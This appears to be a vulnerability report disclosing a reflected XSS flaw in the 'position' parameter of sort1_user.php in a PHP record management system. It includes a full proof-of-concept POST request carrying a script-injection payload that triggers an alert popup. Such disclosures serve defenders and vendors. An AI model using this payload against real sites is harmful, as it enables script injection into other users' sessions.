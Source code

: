 #### BUG_AUTHOR:acmglz
## Record management system – reflected XSS on (sort1_user.php position parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
sort1_user.php

On this page, position parameter is vulnerable to reflected XSS Attack 
### Proof of vulnerability:
#### Request:
```
POST http://192.168.0.100/Personnel_record_management_system/sort1_user.php HTTP/1.1
Host: 192.168.0.100
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.100
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.100/Personnel_record_management_system/sort_user.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

position=Sort+Personnel+by+Position"><script>alert(1)</script>&filter1=
```
### Payload：
"><script>alert(1)</script>
### Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/2873f48e-d7ae-4868-bfaa-9153c770d675">
 
